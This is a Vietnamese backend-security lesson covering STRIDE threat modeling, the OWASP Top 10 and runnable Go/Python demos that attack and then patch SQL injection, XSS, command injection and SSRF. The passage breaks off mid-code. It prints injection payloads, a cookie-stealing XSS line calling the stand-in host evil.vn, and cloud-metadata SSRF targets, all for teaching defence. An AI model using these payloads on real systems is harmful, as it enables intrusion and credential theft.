





# 📚 Bài 12: Bảo mật Backend

## 🎯 Mục tiêu bài học

- Biết cách **threat modeling** (mô hình hóa mối đe dọa) với **STRIDE** trước khi viết code
- Nắm **OWASP Top 10 (2021)** và **tự tay tấn công rồi vá** các lỗ hổng kinh điển: **SQL injection, XSS, CSRF, SSRF, IDOR, path traversal, command injection, mass assignment** — bằng Go và Python, chạy được trên máy
- Quản lý **secrets** đúng cách, hiểu **TLS** ở mức cần thiết cho backend developer
- Cấu hình **CORS** (hiểu preflight) và **security headers**
- **Validate input**, chống **brute-force**, bảo vệ **chuỗi cung ứng phần mềm** (govulncheck, pip-audit)
- Không để **PII** (thông tin cá nhân) lọt vào log
- Phân biệt rạch ròi **hashing vs encryption vs encoding**

> 💡 **Bài này nằm ở đâu trong khóa?** [Bài 4](./04-auth.md) đã dạy authentication & authorization (hash mật khẩu, session, JWT, OAuth2, RBAC). Bài này mở rộng ra **toàn bộ bề mặt tấn công** của một backend: mọi chỗ dữ liệu từ bên ngoài đi vào đều là một cánh cửa kẻ xấu có thể thử cạy.

!!! warning "Chỉ thực hành trên hệ thống của chính bạn"
    Mọi demo trong bài chạy **cục bộ** (SQLite trong RAM, thư mục tạm, server `httptest`). Thử tấn công hệ thống của người khác khi chưa được cho phép bằng văn bản là **vi phạm pháp luật** (Luật An ninh mạng 2018, Bộ luật Hình sự Điều 289). Muốn luyện thêm: dùng OWASP Juice Shop, PortSwigger Web Security Academy, hoặc chương trình bug bounty hợp pháp.

## 📖 1. Tư duy bảo mật

### 1.1. Nguyên tắc nền tảng

| Nguyên tắc | Ý nghĩa | Ví dụ |
|-----------|---------|-------|
| **Never trust input** | Mọi dữ liệu từ ngoài (body, query, header, cookie, file upload, thậm chí response của service khác) đều có thể độc hại | Header `X-Request-ID` dài 1MB, tên file `../../etc/passwd` |
| **Defense in depth** (phòng thủ nhiều lớp) | Không dựa vào một lớp bảo vệ duy nhất | WAF + validate input + parameterized query + DB user ít quyền |
| **Least privilege** (quyền tối thiểu) | Mỗi thành phần chỉ có đúng quyền cần thiết | App chỉ cần `SELECT/INSERT/UPDATE`, không cần `DROP TABLE` |
| **Secure by default** | Cấu hình mặc định phải an toàn | Endpoint mới mặc định **yêu cầu đăng nhập**, muốn public phải khai báo rõ |
| **Fail securely** | Khi lỗi thì **từ chối**, không cho qua | Service phân quyền timeout → trả 503, không phải "cho phép luôn" |
| **Không tự chế crypto** | Dùng thư viện chuẩn, đã được kiểm định | Dùng `bcrypt`/`argon2`, AES-GCM, TLS — không tự nghĩ ra thuật toán |

> 💡 **Ví von**: bảo vệ backend giống bảo vệ một tòa nhà văn phòng. Có bảo vệ ở cổng (firewall/WAF), thẻ từ ở thang máy (authentication), mỗi phòng một chìa riêng (authorization), camera (logging), két sắt cho tài liệu mật (encryption). Kẻ trộm chỉ cần **một** cửa sổ quên khóa — nên bạn phải kiểm tra **mọi** cửa.

### 1.2. Threat Modeling với STRIDE

**Threat modeling** là ngồi lại (trước khi code) và hỏi: *"Hệ thống này có thể bị tấn công thế nào?"*. Bước đầu tiên là vẽ **luồng dữ liệu** và **ranh giới tin cậy (trust boundary)** — nơi dữ liệu đi từ vùng ít tin cậy sang vùng tin cậy hơn:



Sau đó duyệt từng mũi tên qua ranh giới với **STRIDE** (6 loại mối đe dọa, do Microsoft đề xuất):

| Chữ | Mối đe dọa | Vi phạm thuộc tính | Ví dụ với shop online | Biện pháp |
|-----|-----------|-------------------|----------------------|-----------|
| **S** | **Spoofing** — giả mạo danh tính | Authentication | Đăng nhập bằng mật khẩu đoán được; giả webhook từ cổng thanh toán | MFA, chống brute-force, **ký HMAC webhook** |
| **T** | **Tampering** — sửa dữ liệu | Integrity | Sửa giá sản phẩm trong request `{"price": 1000}` | Tính giá ở server, ký dữ liệu, TLS |
| **R** | **Repudiation** — chối bỏ hành vi | Non-repudiation | "Tôi không hề đặt đơn này" | Audit log không sửa được, có user id + thời gian |
| **I** | **Information disclosure** — lộ thông tin | Confidentiality | Xem đơn hàng người khác (IDOR), stack trace lộ ra response | Kiểm tra quyền sở hữu, ẩn lỗi nội bộ, mã hóa |
| **D** | **Denial of service** — từ chối dịch vụ | Availability | Gửi 10.000 request/giây, upload file 10GB | Rate limit, giới hạn kích thước, timeout |
| **E** | **Elevation of privilege** — leo thang quyền | Authorization | User thường gửi `"role":"admin"` khi cập nhật hồ sơ (mass assignment) | Allowlist trường được sửa, kiểm tra quyền ở server |

!!! tip "Threat modeling không cần hoàn hảo"
    30 phút với một bảng trắng, cả team cùng hỏi "STRIDE cho mũi tên này là gì?" đã phát hiện được phần lớn lỗ hổng thiết kế (OWASP gọi là **A04 Insecure Design** — lỗi mà code đẹp đến mấy cũng không cứu được).

## 📖 2. OWASP Top 10 (2021) — bản đồ lỗ hổng

**OWASP** (Open Worldwide Application Security Project) thống kê các nhóm lỗ hổng phổ biến nhất trên web:

| # | Nhóm | Hiểu nhanh | Trong bài này |
|---|------|-----------|---------------|
| A01 | **Broken Access Control** | Làm được việc không được phép (xem/sửa dữ liệu người khác) | IDOR, mass assignment, path traversal, CORS (mục 3.5-3.7, 5) |
| A02 | **Cryptographic Failures** | Không mã hóa / mã hóa sai / lưu mật khẩu dạng thô | TLS, hashing vs encryption (mục 6, 11) |
| A03 | **Injection** | Dữ liệu người dùng bị hiểu thành **lệnh** (SQL, shell, HTML/JS) | SQLi, command injection, XSS (mục 3.1-3.3) |
| A04 | **Insecure Design** | Thiết kế sai từ đầu (không có rate limit cho OTP...) | Threat modeling (mục 1.2), brute-force (mục 8) |
| A05 | **Security Misconfiguration** | Cấu hình mặc định, bật debug, CORS `*`, thiếu header | CORS, security headers (mục 5) |
| A06 | **Vulnerable and Outdated Components** | Thư viện có lỗ hổng đã biết (Log4Shell) | Supply chain (mục 9) |
| A07 | **Identification and Authentication Failures** | Brute-force, session không hết hạn | Brute-force (mục 8), [Bài 4](./04-auth.md) |
| A08 | **Software and Data Integrity Failures** | Tin code/dữ liệu không được kiểm tra (CI bị chèn mã, deserialization) | Supply chain (mục 9) |
| A09 | **Security Logging and Monitoring Failures** | Bị tấn công mà không biết | Log & PII (mục 10), [Bài 11](./11-observability-reliability.md) |
| A10 | **Server-Side Request Forgery (SSRF)** | Lừa server gọi tới địa chỉ nội bộ | SSRF (mục 3.4) |

!!! note "OWASP Top 10 bản 2025"
    OWASP đã công bố bản cập nhật 2025, trong đó nổi bật là nhóm **Software Supply Chain Failures** (mở rộng A06) và SSRF được gộp vào **Broken Access Control**. Các lỗ hổng cụ thể trong bài này không đổi — chỉ cách phân nhóm thay đổi. Broken Access Control vẫn đứng **số 1**.

## 📖 3. Tấn công và vá: các lỗ hổng kinh điển

Mỗi mục có cấu trúc: **cơ chế** → **code có lỗ hổng** → **tấn công** → **bản vá**. Hãy chạy từng ví dụ để "cảm" được lỗ hổng thật sự nguy hiểm thế nào.

### 3.1. SQL Injection (A03)

**Cơ chế**: code **nối chuỗi** dữ liệu người dùng vào câu SQL. Database không phân biệt được đâu là "lệnh của lập trình viên" và đâu là "dữ liệu của người dùng".

```text
Code:     "SELECT ... WHERE username = '" + name + "'"
Người dùng nhập:  x' OR '1'='1
Câu SQL thật:     SELECT ... WHERE username = 'x' OR '1'='1'     ← luôn đúng → trả MỌI user
```

> 💡 **Ví von**: bạn đưa cho thư ký tờ giấy "Hãy chuyển cho **[tên khách điền]** 100 nghìn". Khách điền: *"An. Và chuyển cho tôi 100 triệu"*. Thư ký đọc nguyên câu và làm theo. **Parameterized query** giống như tờ giấy có **ô riêng** cho tên — dù khách viết gì vào ô đó thì nó vẫn chỉ là **một cái tên**.

=== "Go"

    ```go
    package main

    import (
    	"database/sql"
    	"fmt"
    	"strings"

    	_ "modernc.org/sqlite"
    )

    func setup() *sql.DB {
    	db, err := sql.Open("sqlite", ":memory:")
    	if err != nil {
    		panic(err)
    	}
    	db.SetMaxOpenConns(1) // :memory: - mỗi connection là 1 DB riêng
    	stmts := []string{
    		`CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT, password_hash TEXT, role TEXT)`,
    		`INSERT INTO users (username, password_hash, role) VALUES
    			('an', '$2a$10$hashcuaan', 'user'),
    			('binh', '$2a$10$hashcuabinh', 'user'),
    			('admin', '$2a$10$hashcuaadmin', 'admin')`,
    	}
    	for _, s := range stmts {
    		if _, err := db.Exec(s); err != nil {
    			panic(err)
    		}
    	}
    	return db
    }

    func collect(rows *sql.Rows, err error) string {
    	if err != nil {
    		return "lỗi: " + err.Error()
    	}
    	defer rows.Close()
    	var out []string
    	for rows.Next() {
    		var a, b string
    		rows.Scan(&a, &b)
    		out = append(out, a+"("+b+")")
    	}
    	return "[" + strings.Join(out, ", ") + "]"
    }

    // ❌ Nối chuỗi
    func findUserVulnerable(db *sql.DB, name string) string {
    	q := "SELECT username, role FROM users WHERE username = '" + name + "'"
    	return collect(db.Query(q))
    }

    // ✅ Parameterized query: dữ liệu đi riêng, không bao giờ thành lệnh
    func findUserSafe(db *sql.DB, name string) string {
    	return collect(db.Query("SELECT username, role FROM users WHERE username = ?", name))
    }

    func main() {
    	db := setup()
    	inputs := []string{
    		"an",
    		"x' OR '1'='1",
    		"x' UNION SELECT username, password_hash FROM users --",
    	}
    	for _, in := range inputs {
    		fmt.Printf("input: %s\n", in)
    		fmt.Println("  ❌ vulnerable:", findUserVulnerable(db, in))
    		fmt.Println("  ✅ safe:      ", findUserSafe(db, in))
    	}
    }

    // Output:
    // input: an
    //   ❌ vulnerable: [an(user)]
    //   ✅ safe:       [an(user)]
    // input: x' OR '1'='1
    //   ❌ vulnerable: [an(user), binh(user), admin(admin)]
    //   ✅ safe:       []
    // input: x' UNION SELECT username, password_hash FROM users --
    //   ❌ vulnerable: [admin($2a$10$hashcuaadmin), an($2a$10$hashcuaan), binh($2a$10$hashcuabinh)]
    //   ✅ safe:       []
    ```

=== "Python"

    ```python
    import sqlite3

    db = sqlite3.connect(":memory:")
    db.executescript("""
        CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT, password_hash TEXT, role TEXT);
        INSERT INTO users (username, password_hash, role) VALUES
            ('an', '$2a$10$hashcuaan', 'user'),
            ('binh', '$2a$10$hashcuabinh', 'user'),
            ('admin', '$2a$10$hashcuaadmin', 'admin');
    """)


    def fmt(rows) -> str:
        return "[" + ", ".join(f"{a}({b})" for a, b in rows) + "]"


    def find_user_vulnerable(name: str) -> str:
        # ❌ f-string / nối chuỗi
        q = f"SELECT username, role FROM users WHERE username = '{name}'"
        return fmt(db.execute(q).fetchall())


    def find_user_safe(name: str) -> str:
        # ✅ placeholder ? - driver gửi dữ liệu tách biệt khỏi câu lệnh
        return fmt(db.execute("SELECT username, role FROM users WHERE username = ?", (name,)).fetchall())


    if __name__ == "__main__":
        for s in ["an", "x' OR '1'='1", "x' UNION SELECT username, password_hash FROM users --"]:
            print(f"input: {s}")
            print("  ❌ vulnerable:", find_user_vulnerable(s))
            print("  ✅ safe:      ", find_user_safe(s))

    # Output:
    # input: an
    #   ❌ vulnerable: [an(user)]
    #   ✅ safe:       [an(user)]
    # input: x' OR '1'='1
    #   ❌ vulnerable: [an(user), binh(user), admin(admin)]
    #   ✅ safe:       []
    # input: x' UNION SELECT username, password_hash FROM users --
    #   ❌ vulnerable: [admin($2a$10$hashcuaadmin), an($2a$10$hashcuaan), binh($2a$10$hashcuabinh)]
    #   ✅ safe:       []
    ```

Tấn công `UNION` còn tệ hơn: kẻ tấn công **đọc được cột bất kỳ** (ở đây là password hash) chỉ qua một ô tìm kiếm.

!!! warning "Những chỗ placeholder KHÔNG dùng được"
    Placeholder `?`/`$1` chỉ thay được **giá trị**, không thay được **tên cột, tên bảng, từ khóa** (`ORDER BY ?` không hoạt động như bạn nghĩ). Khi cần sắp xếp động, dùng **allowlist**:

    ```python
    SORTABLE = {"name": "name", "price": "price", "newest": "created_at DESC"}
    order_by = SORTABLE.get(request_sort, "created_at DESC")   # không bao giờ đưa thẳng input vào SQL
    ```

    ORM (GORM, SQLAlchemy) mặc định an toàn, nhưng các hàm "raw" (`db.Raw(...)`, `text(...)`) mà nối chuỗi thì vẫn dính SQLi.

### 3.2. Cross-Site Scripting — XSS (A03)

**Cơ chế**: server chèn dữ liệu người dùng vào **HTML** mà không escape → trình duyệt của **nạn nhân** chạy JavaScript của kẻ tấn công → đánh cắp session, thao tác thay nạn nhân.

| Loại | Payload nằm ở đâu | Ví dụ |
|------|-------------------|-------|
| **Stored** | Lưu trong DB, hiện cho mọi người xem | Bình luận sản phẩm chứa `<script>` |
| **Reflected** | Nằm trong URL, server "phản chiếu" lại | `/search?q=<script>...</script>` gửi qua tin nhắn lừa đảo |
| **DOM-based** | JS phía client tự chèn vào DOM | `element.innerHTML = location.hash` |

Cách vá: **escape theo ngữ cảnh** khi render (HTML body, thuộc tính, URL, JavaScript có quy tắc escape khác nhau). Go có `html/template` tự làm việc này (**contextual autoescaping**); Python dùng Jinja2 (bật autoescape) hoặc tối thiểu `html.escape`.

=== "Go"

    ```go
    package main

    import (
    	"fmt"
    	"html/template"
    	"os"
    )

    func main() {
    	comment := `<script>fetch('https://evil.vn/?c='+document.cookie)</script>`
    	website := `javascript:alert(1)`

    	// ❌ Nối chuỗi HTML
    	fmt.Println("❌", "<p>"+comment+"</p>")

    	// ✅ html/template: escape theo ngữ cảnh
    	t := template.Must(template.New("c").Parse(
    		`✅ <p>{{.Comment}}</p>` + "\n" + `✅ <a href="{{.Website}}">web</a>` + "\n"))
    	t.Execute(os.Stdout, map[string]string{"Comment": comment, "Website": website})
    }

    // Output:
    // ❌ <p><script>fetch('https://evil.vn/?c='+document.cookie)</script></p>
    // ✅ <p>&lt;script&gt;fetch(&#39;https://evil.vn/?c=&#39;&#43;document.cookie)&lt;/script&gt;</p>
    // ✅ <a href="#ZgotmplZ">web</a>
    ```

=== "Python"

    ```python
    import html
    from urllib.parse import urlparse

    comment = "<script>fetch('https://evil.vn/?c='+document.cookie)</script>"
    website = "javascript:alert(1)"


    def safe_url(url: str) -> str:
        # html.escape KHÔNG chặn được "javascript:" -> phải tự kiểm tra scheme
        return url if urlparse(url).scheme in ("http", "https") else "#"


    if __name__ == "__main__":
        print("❌", f"<p>{comment}</p>")
        print("✅", f"<p>{html.escape(comment)}</p>")
        print("✅", f'<a href="{html.escape(safe_url(website))}">web</a>')

    # Output:
    # ❌ <p><script>fetch('https://evil.vn/?c='+document.cookie)</script></p>
    # ✅ <p>&lt;script&gt;fetch(&#x27;https://evil.vn/?c=&#x27;+document.cookie)&lt;/script&gt;</p>
    # ✅ <a href="#">web</a>
    ```

`#ZgotmplZ` là cách `html/template` báo "giá trị này không an toàn trong ngữ cảnh URL nên tôi đã thay nó". Python `html.escape` chỉ xử lý ký tự đặc biệt — URL `javascript:` không chứa ký tự nào cần escape nên **vẫn lọt**, phải kiểm tra scheme riêng.

Các lớp phòng thủ bổ sung cho XSS:

- Cookie session đặt **`HttpOnly`** → JavaScript không đọc được `document.cookie`.
- Header **Content-Security-Policy** (mục 5.3) → trình duyệt từ chối chạy script inline / từ domain lạ.
- API JSON trả `Content-Type: application/json` (không phải `text/html`).
- Nếu cho phép người dùng nhập HTML (trình soạn thảo bài viết), dùng thư viện **sanitize** theo allowlist (Go: `bluemonday`, Python: `nh3`/`bleach`) — đừng tự viết regex lọc `<script>`.

### 3.3. Command Injection (A03)

**Cơ chế**: truyền input vào **shell** (`sh -c`, `os.system`, `shell=True`). Shell hiểu `;`, `&&`, `|`, `$(...)` là ký tự điều khiển → kẻ tấn công nối thêm lệnh tùy ý.

=== "Go"

    ```go
    package main

    import (
    	"fmt"
    	"os/exec"
    	"regexp"
    )

    var hostRe = regexp.MustCompile(`^[a-zA-Z0-9.-]{1,253}$`)

    func main() {
    	host := "example.com; echo ĐÃ-BỊ-CHÈN-LỆNH"

    	// ❌ Qua shell: ";" kết thúc lệnh 1, bắt đầu lệnh 2
    	out, _ := exec.Command("sh", "-c", "echo ping "+host).Output()
    	fmt.Printf("❌ %s", out)

    	// ✅ Không qua shell: host chỉ là MỘT đối số, ";" không có ý nghĩa đặc biệt
    	out, _ = exec.Command("echo", "ping", host).Output()
    	fmt.Printf("✅ %s", out)

    	// ✅✅ Tốt nhất: validate theo allowlist trước khi dùng
    	fmt.Println("hợp lệ?", hostRe.MatchString(host), hostRe.MatchString("example.com"))
    }

    // Output:
    // ❌ ping example.com
    // ĐÃ-BỊ-CHÈN-LỆNH
    // ✅ ping example.com; echo ĐÃ-BỊ-CHÈN-LỆNH
    // hợp lệ? false true
    ```

=== "Python"

    ```python
    import re
    import subprocess

    HOST_RE = re.compile(r"^[a-zA-Z0-9.-]{1,253}$")

    if __name__ == "__main__":
        host = "example.com; echo ĐÃ-BỊ-CHÈN-LỆNH"

        # ❌ shell=True: chuỗi được shell phân tích
        out = subprocess.run(f"echo ping {host}", shell=True, capture_output=True, text=True).stdout
        print("❌", out, end="")

        # ✅ list đối số, không có shell
        out = subprocess.run(["echo", "ping", host], capture_output=True, text=True).stdout
        print("✅", out, end="")

        print("hợp lệ?", bool(HOST_RE.match(host)), bool(HOST_RE.match("example.com")))

    # Output:
    # ❌ ping example.com
    # ĐÃ-BỊ-CHÈN-LỆNH
    # ✅ ping example.com; echo ĐÃ-BỊ-CHÈN-LỆNH
    # hợp lệ? False True
    ```

!!! warning "Argument injection"
    Kể cả không qua shell, input bắt đầu bằng `-` có thể bị chương trình hiểu thành **tùy chọn** (ví dụ `git` với `--upload-pack=...`). Hãy validate, và với chương trình hỗ trợ thì thêm `--` trước input: `exec.Command("git", "clone", "--", repoURL)`. Tốt nhất: dùng **thư viện** thay vì gọi lệnh ngoài (ví dụ gọi thư viện xử lý ảnh thay vì `convert`).

### 3.4. Server-Side Request Forgery — SSRF (A10)

**Cơ chế**: tính năng "server đi lấy URL giúp người dùng" (tải ảnh đại diện từ link, xem trước link, webhook do người dùng cấu hình) bị lừa gọi tới **địa chỉ nội bộ** mà kẻ tấn công không tự gọi được:

- `http://169.254.169.254/latest/meta-data/iam/...` → **metadata của cloud**, chứa access key tạm thời (vụ Capital One 2019 lộ 100 triệu hồ sơ khách hàng theo đúng kiểu này).
- `http://127.0.0.1:6379/` → Redis nội bộ không đặt mật khẩu.
- `http://10.0.0.5/admin` → trang quản trị chỉ mở trong mạng nội bộ.



Cách vá (nhiều lớp):

1. Chỉ cho phép scheme `http`/`https` (chặn `file://`, `gopher://`...).
2. **Phân giải DNS** rồi chặn nếu IP là loopback, private (10/8, 172.16/12, 192.168/16), link-local (169.254/16), unspecified...
3. Kiểm tra lại **tại thời điểm kết nối** (trong dialer) để chống **DNS rebinding** — kẻ tấn công cho domain trả IP công khai lúc kiểm tra, rồi trả `127.0.0.1` lúc kết nối thật.
4. Không theo redirect (hoặc kiểm tra lại mỗi lần redirect), đặt timeout, giới hạn kích thước response, **không trả nội dung response** thô về cho người dùng.
5. Ở tầng hạ tầng: bật **IMDSv2** trên AWS, chặn egress bằng firewall/network policy.

=== "Go"

    ```go
    package main

    import (
    	"context"
    	"errors"
    	"fmt"
    	"net"
    	"net/http"
    	"net/http/httptest"
    	"net/netip"
    	"net/url"
    	"strings"
    	"syscall"
    	"time"
    )

    func isPublic(ip netip.Addr) bool {
    	ip = ip.Unmap()
    	return !(ip.IsLoopback() || ip.IsPrivate() || ip.IsLinkLocalUnicast() ||
    		ip.IsLinkLocalMulticast() || ip.IsMulticast() || ip.IsUnspecified())
    }

    // Lớp 1: kiểm tra URL trước khi gọi
    func checkURL(raw string) error {
    	u, err := url.Parse(raw)
    	if err != nil {
    		return err
    	}
    	if u.Scheme != "http" && u.Scheme != "https" {
    		return fmt.Errorf("scheme %q bị cấm", u.Scheme)
    	}
    	ips, err := net.DefaultResolver.LookupNetIP(context.Background(), "ip", u.Hostname())
    	if err != nil {
    		return err
    	}
    	for _, ip := range ips {
    		if !isPublic(ip) {
    			return fmt.Errorf("host %s trỏ tới địa chỉ nội bộ", u.Hostname())
    		}
    	}
    	return nil
    }

    // Lớp 2: client tự chặn NGAY LÚC KẾT NỐI (chống DNS rebinding, redirect)
    func safeClient() *http.Client {
    	dialer := &net.Dialer{
    		Timeout: 3 * time.Second,
    		Control: func(network, address string, _ syscall.RawConn) error {
    			host, _, _ := net.SplitHostPort(address)
    			ip, err := netip.ParseAddr(host)
    			if err != nil || !isPublic(ip) {
    				return errors.New("chặn kết nối tới địa chỉ nội bộ")
    			}
    			return nil
    		},
    	}
    	return &http.Client{
    		Timeout:   5 * time.Second,
    		Transport: &http.Transport{DialContext: dialer.DialContext},
    	}
    }

    func main() {
    	for _, u := range []string{
    		"http://93.184.215.14/logo.png",
